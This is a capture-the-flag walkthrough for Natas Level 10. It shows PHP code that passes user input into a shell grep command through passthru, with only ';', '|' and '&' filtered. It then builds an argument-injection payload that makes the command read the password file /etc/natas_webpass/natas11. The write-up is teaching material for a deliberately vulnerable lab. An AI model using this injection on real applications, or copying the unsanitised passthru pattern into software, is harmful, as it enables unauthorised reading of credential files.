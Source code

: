 # Natas Level 10
This level builds on the previous level by intoducing some additional constraints.

## Quest 
We are presented with a webpage containing msg "_For security reasons, we now filter on certain characters_".

![Level 10 Image](./images/Level10.png)

From the source code we can see some additional checks have been introduced, Lets comment the code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) { // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];             // If its there, assign it to var $key
}

if($key != "") {                            // If key is not empty
    if(preg_match('/[;|&]/',$key)) {        // and If user input contains ;,|,&
        print "Input contains an illegal character!";  // Print the message
    } else {
        passthru("grep -i $key dictionary.txt");  // Else, run the command with user input
    }
}
?>
```
<br/><br/>

## Solution
From the source code, we can see that application now doesn't accept characters `;`, `|` and `&`. Essentially all characters that can terminate a command.

Now to construct our payload, we do some tests in our local linux terminal.
```shell
# I have a simple text file 'test'
$ cat test
This is a random file
We love random things, not pseudo random ones.

# Another way to view the file using 'grep'
$ grep -i "" test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # There is no space after \
> test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # If we put a space after \  , command terminates
cat: ' ': No such file or directory
```
<span id="green">Takeaway:</span><br/>
    1. We can use `grep` to view the contents of a file<br/>
    2. `\` is used in multiline linux commands to split command to next line when command is too long<br/>
    3. But if we put a space after `\`, then it terminates the command<br/>

So, Our payload becomes <span id="green">-></span> `"" /etc/natas_webpass/natas11 \`
<br/>Note that we don't need to add extra space at the end as its added for us when `grep` command is run.<br/><br/>

Now, we put our payload in the form and it reveals the password for next Level

![Level10 Solution](./images/Level10_solution.png)

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)

